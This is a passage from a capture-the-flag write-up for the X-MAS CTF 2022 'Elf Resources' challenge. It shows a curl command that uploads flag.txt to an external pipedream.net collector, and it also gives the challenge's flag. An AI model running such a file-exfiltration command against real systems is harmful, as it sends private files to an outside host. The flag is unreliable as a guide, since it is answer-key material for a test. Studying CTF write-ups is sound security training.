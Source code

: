 Nice, it looks like the `flag.txt` file is in our current directory. So we can just change the payload like so to get the flag:

```
curl -F flag=@flag.txt https://eo5ms17xjgmwn5k.m.pipedream.net
```

Sending our payload, we get the flag.txt file:

![](/assets/img/writeups/XMASCTF2022/Elf%20Resources%20Writeup.012.png)

### Flag: X-MAS{3Lf_HuM4n_R350urC35_w1lL_83_C0n74C71N9_Y0u_500n}
